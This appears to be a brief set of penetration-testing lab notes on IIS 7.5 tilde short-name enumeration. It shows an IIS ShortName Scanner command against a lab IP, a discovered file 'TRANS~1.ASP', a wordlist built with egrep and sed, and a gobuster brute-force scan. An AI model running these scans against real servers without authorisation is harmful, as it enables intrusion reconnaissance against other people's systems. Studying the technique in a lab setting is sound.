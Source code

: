 # IIS Tilde Enumeration
IIS 7.5 is running on port 80. Executing a tilde enumeration attack on this version could be a viable option
## Tilde Enumeration using IIS ShortName Scanner
```
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/
```
1. TRANS~1.ASP discovered
2. Generate Wordlist
```
egrep -r ^transf /usr/share/wordlists/* | sed 's/^[^:]*://' > /tmp/list.txt
```
```
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```